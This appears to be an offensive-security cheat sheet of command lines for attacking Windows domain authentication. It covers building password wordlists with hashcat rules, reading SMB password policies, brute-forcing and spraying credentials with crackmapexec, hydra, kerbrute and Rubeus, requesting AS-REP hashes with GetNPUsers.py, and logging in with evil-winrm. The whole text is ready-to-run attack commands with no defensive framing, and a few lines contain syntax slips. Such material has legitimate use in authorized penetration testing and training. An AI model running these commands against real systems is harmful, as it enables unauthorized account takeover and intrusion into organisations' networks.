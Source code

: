 ```
# create password.list
for i in $(cat pass.list); do echo $i, echo $i2022, echo $i2021; echo $i!; done > tmp && cat tmp > pass.list
hashcat --force --stdout pass.list -r /usr/share/hashcat/rules/best64.rule | awk 'length {$0} > 8'
hashcat --force --stdout pass.list -r /usr/share/hashcat/rules/toggles1.rule | awk 'length {$0} > 8'
cat pass.list | sed '/^$/d' > tmp && cat tmp > pass.list

```

#### crackmapexec password policy
    - enum4linux for groups, password policies etc
```
crackmapexec smb $IP -u "" -p "" --pass-pol # anonymous users in precompatiblity group in domains upgraded since 2003/2008
```

#### crackmapexec bruteforce
```
crackmapexec smb $IP -u userlist -p passwordlist

```

#### with user list - GetNPUsers.py
```
sudo python GetNPUsers.py domain.local/ -dc-ip $IP -request -usersfile /home/users.txt
```

#### with creds - SMB & Evil-WinRM
```
evil-winrm -u username -p password -i $IP
```

#### bruteforce with hydra
```
hydra -L /home/users.txt -p password smb://$IP
```


#### [kerbrute](https://github.com/TarlogicSecurity/kerbrute) bruteforce
```
python kerbrute.py -domain <domain_name> -users <users_file> -passwords <passwords_file> -outputfile <output_file>
```

#### [Rubeus](https://github.com/Zer1t0/Rubeus) bruteforce
```
# with a list of users
.\Rubeus.exe brute /users:<users_file> /passwords:<passwords_file> /domain:<domain_name> /outfile:<output_file>

# check passwords for all users in current domain
.\Rubeus.exe brute /passwords:<passwords_file> /outfile:<output_file>
```
